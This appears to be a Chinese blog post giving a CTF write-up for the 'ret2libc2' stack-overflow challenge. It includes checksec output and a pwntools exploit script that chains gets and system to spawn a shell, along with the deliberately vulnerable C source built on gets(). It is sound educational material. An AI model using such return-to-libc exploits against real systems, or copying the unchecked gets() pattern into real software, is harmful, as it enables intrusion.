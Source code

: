 ```yaml
---
layout:     post
title:      ret2libc2
subtitle:   解题思路
date:       2018-07-08
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```


环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



[程序下载](https://maoshuu.oss-cn-beijing.aliyuncs.com/elf/ret2libc2)



```
checksec ret2libc2

[*] '/home/hello/Desktop/test/ret2libc2/ret2libc2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



```
file ret2libc2

ret2libc2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked
```



ret2lib2与ret2lib1相比，最大的区别在于，程序中没有/bin/sh字符串，所以我们需要从其他地方获取/bin/sh字符串，并传递到system函数中



这里我们先跳转到gets函数，用来接收我们输入的 ‘/bin/sh’ 字符串，存储在buf2中，然后返回到sysytem函数，把buf2的地址传递给system函数，相当于通过指针传递参数

```python
payload = flat(['a'*112, gets_plt, pop_ebp, buf2, system_plt, ret_addr, buf2])
```



exp.py

```python
#!/bin/sh/env python

from pwn import *

sh = process('./ret2libc2')
elf = ELF('./ret2libc2')

gets_plt = elf.plt['gets']
system_plt = elf.plt['system']
ret_addr = 0x8048490

pop_ebp = 0x0804872f

buf2 = 0x804A040

payload = flat(['a'*112, gets_plt, pop_ebp, buf2, system_plt, ret_addr, buf2])

sh.sendline(payload)
#sh.sendline('/bin/sh')
sh.interactive()
```





ret2libc2.c

```c
#include <stdio.h>

#include <stdlib.h>

#include <time.h>


char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("no_shell_QQ");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf1[100];

    printf("Something surprise here, but I don't think it will work.\n");
    printf("What do you think ?");
    gets(buf1);

    return 0;
}
```